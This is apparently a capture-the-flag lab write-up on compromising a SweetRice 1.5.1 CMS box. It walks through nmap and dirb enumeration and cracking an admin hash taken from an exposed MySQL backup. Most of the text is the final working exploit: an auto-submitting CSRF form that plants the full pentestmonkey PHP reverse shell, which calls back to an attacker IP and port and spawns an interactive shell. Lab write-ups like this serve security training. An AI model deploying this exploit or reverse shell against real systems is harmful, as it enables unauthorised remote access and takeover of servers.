 Starting off with an nmap scan 

```nmap -sC -sV -O 10.10.14.115```

Just 2 ports open, 22 and 80 which indicate SSH and an HTTP server respectively.

Let's check out the http server...we're greeted by the default Apache2 ubuntu page. We'll run Dirb to check for any hidden directories.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt`

And we'll also add the -X .php option since this is an apache server.

`dirb http://10.10.14.115 /usr/share/dirb/wordlists/big.txt -X .php`

We found a directory at http:/10.10.14.115/content

Looks like this page is using a website management system called "SweetRice". Let's look it up on exploit-db.

I couldn't find a version number but the majority of the exploits seem to affect version 1.5.1, let's try and use an arbitrary file upload exploit to upload a reverse shell.

We'll use https://www.exploit-db.com/exploits/40716

It looks like we need to be authenticated for this exploit to work. We could try and brute-force the login but let's try another attack vector first. Our dirb scan found several directories within /content

Three of these stand out to me. `/content/as` `/content/inc` and `/content/as/lib`

`/content/as` is the admin sign-in panel to access the dashboard.

`/content/as/lib` contains PHP scripts that provide functionality to the website.

`/content/inc` also contains PHP scripts but it also contains a few directories. One of them being `mysql_backup/` We can try and look for some credentials stored in the backup. Let's download the file to our Attackbox and open it up with a text editor.

`"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\`

Looks like we found some hard-coded credentials. It looks like an MD5 hash so we'll need to crack it. I opted to use crackstation for this.

Now that we have some credentials, let's use them to login to the admin panel we saw earlier.

Let's use https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html to try and get a shell on the system. (We've also cofirmed the version number as 1.5.1)

After slightly modifying the exploit to suit our needs, we set up a listener on our attackbox and uploaded our php reverse shell. We can now navigate to http://10.10.14.115/content/inc/ads/ to run our shell.

This is what our working exploit looked like:

```<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.14.115/content/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked2"/>
<textarea type="hidden" name="adv">
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.102.213';
$port = 9001;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>```





